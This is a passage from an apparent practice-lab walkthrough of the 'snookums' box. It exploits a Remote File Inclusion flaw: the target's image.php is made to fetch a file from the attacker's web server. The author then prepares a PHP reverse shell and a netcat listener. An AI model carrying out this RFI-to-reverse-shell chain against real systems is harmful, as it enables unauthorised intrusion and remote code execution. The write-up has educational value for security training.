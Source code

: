 ```
Link to Exploit:https://www.exploit-db.com/exploits/48424

Reading the exploit, I saw the Poc (proof of concept)

![image](https://user-images.githubusercontent.com/67879936/222937717-8e083a9d-0118-454b-8c62-420ab46ebf14.png)

Lets navigate to that url, but to test a possible RFI (Remote File Inclusion), i'll host a file on my webserver and will try to get access it from that url

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ ls
snookums
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Link:http://192.168.53.58/image.php?img=http://192.168.49.53/snookums

![image](https://user-images.githubusercontent.com/67879936/222937841-eac8d210-0f79-4bca-8281-0ae1bf0a9bd2.png)

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ ls
snookums
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.53.58 - - [05/Mar/2023 03:09:04] "GET /snookums HTTP/1.0" 200 -
```
cool, now lets go ahead and host our reverse shell so we can get a shell back to our machine. I will be making use of php-pentestmonkey

Link to get php-pentestmonkey rev shell:https://github.com/pentestmonkey/php-reverse-shell

![image](https://user-images.githubusercontent.com/67879936/222937958-59f40b30-54b6-4021-8937-7844629cd63b.png)

set your $ip and also the port you would want to listen on

Also, ensure you set your netcat listener

>command: nc -nvlp 445

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ ls
shell.php  snookums
                                                                                                                                                                        